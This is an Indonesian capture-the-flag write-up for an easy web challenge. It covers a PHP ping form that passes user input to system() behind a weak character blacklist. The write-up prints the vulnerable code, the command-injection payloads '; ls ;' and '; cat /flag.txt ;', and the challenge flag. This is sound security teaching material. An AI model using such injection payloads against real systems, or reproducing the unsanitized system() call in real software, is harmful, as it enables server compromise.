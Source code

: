 # ErCeE

Author: daffainfo

Category: Web

Flag: `HCS{rC3_1TU_54nG4T_m3NY3r4mK4N!!!}`

## Description
Let's ping the website!!

## Difficulty
Easy

## Solution
Mari kita analisis terlebih dahulu source code yang ada

```php
$command = $_POST['cmd'] ?? ''; 

function sanitizeString($input) {
	$sanitized = str_replace(array('|', '>', '<', '&'), '', $input);
	return $sanitized;
}

$sanitized = sanitizeString($command);

$output = system("ping " . $sanitized . "-c2");

echo "<pre>$output</pre>";
```

Disini kita dapat memasukkan sebuah input melalui parameter `cmd` dengan POST method. Dan kemudian inputnya akan dimasukkan kedalam fungsi `sanitizeString` untuk dihilangkan karakter-karakter yang berbahaya dan pada akhirnya akan masuk kedalam command `ping`. Sebagai contoh, jika saya masukkan `127.0.0.1`, maka command yang akan berjalan menjadi

```bash
ping 127.0.0.1 -c2
```

Jika dilihat kembali kode sumbernya ternyata rentan terhadap `Command Injection` dimana kita bisa menjalankan command-command yang berbahaya pada website. Namun terdapat filter dimana kita tidak bisa memasukkan 4 special characters

```php
function sanitizeString($input) {
	$sanitized = str_replace(array('|', '>', '<', '&'), '', $input);
	return $sanitized;
}
```

Meskipun terdapat beberapa characters yang difilter, masih ada special character `;` yang tidak difilter sehingga jika memasukkan input seperti dibawah pada form

```
; ls ;
```

Maka command yang berjalan pada website akan seperti ilustrasi dibawah

```bash
ping ; ls ; -c2
```

![example](images/example.png)

Terlihat bahwa command `ping` dan `-c2` akan menimbulkan error dan command `ls` dan `ls -la` akan tetap tereksekusi. Kemudian jika diimplementasikan kepada website yang akan diexploit, maka hasilnya akan seperti ini

![exploit](images/exploit.png)

Terlihat bahwa kita berhasil menjalankan command `ls -la` pada website. Kemudian untuk membaca file `flag.txt`, maka payload yang digunakan akan seperti gambar dibawah

```
; cat /flag.txt ;
```

![flag](images/flag.png)